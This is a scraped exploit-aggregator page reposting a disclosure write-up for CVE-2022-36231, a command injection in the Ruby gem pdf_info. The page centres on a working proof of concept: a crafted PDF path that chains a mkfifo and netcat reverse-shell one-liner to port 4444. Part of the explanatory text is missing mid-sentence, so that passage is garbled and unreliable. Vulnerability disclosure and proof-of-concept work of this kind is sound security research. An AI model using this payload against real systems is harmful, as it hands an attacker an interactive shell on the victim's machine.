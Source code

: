 ```yaml
---
title: Exploit for CVE-2022-36231 exploit
url: https://sploitus.com/exploit?id=9A755BF4-2D19-56F7-953E-C3CF6A7F80C7&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-10-27
fetch_date: 2025-10-03T20:58:20.089573
---
```


# Exploit for CVE-2022-36231 exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for OS Command Injection in Newspaperclub Pdf\_Info CVE-2022-36231

2022-10-26 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=9A755BF4-2D19-56F7-953E-C3CF6A7F80C7
# CVE-2022-36231

The ruby gem [pdf_info](https://rubygems.org/gems/pdf_info)  /dev/null`
```

As with the `initialize` method there is no validation performed on the `@pdf_path` variable. This allows us to make use of command chaining with `;` to execute an arbitrary command.

```ruby
info = PDF::Info.new('pdf/sample1.pdf; $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444>/tmp/f)')

pp info.metadata
```

The above code snippet will execute a reverse shell to `127.0.0.1` on port `4444`

![Shell](https://github.com/affix/CVE-2022-36231/raw/main/img/shell.png)

## Disclosure Details

* 2022-07-20 :: Reported to Vendor
* 2022-08-30 :: Follow up with Vendor
* 2022-09-30 :: Apply for CVE
* 2022-10-26 :: Publish Vulnerability
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
